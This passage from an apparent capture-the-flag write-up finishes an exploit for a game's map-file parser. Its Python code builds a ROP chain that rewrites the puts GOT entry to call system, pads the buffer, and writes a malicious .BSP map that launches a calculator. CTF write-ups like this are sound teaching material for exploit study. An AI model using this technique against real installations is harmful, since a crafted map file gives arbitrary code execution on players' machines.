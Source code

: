 ```Python
rop = []

for i in range(0, len(command), 4):
	current = int(command[i:][:4][::-1].encode("hex"), 16)
	rop += [pop_eax_ebx_ebp, bss + i - 0x5b, current, bss, add_what_where, bss]

rop += [pop_eax_ebx_ebp, putsgot - 0x5b, 0x100000000 - (putsoffset - systemoffset), bss, add_what_where, bss]
rop += [putsplt, bss, bss, bss]

payload = ""
for i in rop:
	payload += p32(i)


with open('rop', 'wb') as f:
	f.write(payload)

print '[+] Generated ROP.\n'
```

## Finalizing the exploit

To finish up the exploit, we just need to overwrite the whole buffer up until the return address with zeroes, and then insert our ROP payload!

```Python

from pwn import *

rop = ''

with open('rop', 'r') as f:
	rop = f.read()

payload  = p8(0) * 0x1c0 
payload += rop

with open('payload', 'w') as f:
	f.write(payload)

print '[+] Full payload generated.\n'
``` 

After inserting our crafted payload, fixing the `fileLen`, and `fileNameLength` we can finally execute our code!

The final .BSP file (map) can be found [here](https://github.com/j0nathanj/CTF-WriteUps/blob/master/2018/RealWorldCTF-2018/pwn/P90_Rush_B/src/exploit.bsp)

![](https://github.com/j0nathanj/CTF-WriteUps/blob/master/2018/RealWorldCTF-2018/pwn/P90_Rush_B/images/csgo_calc.gif)
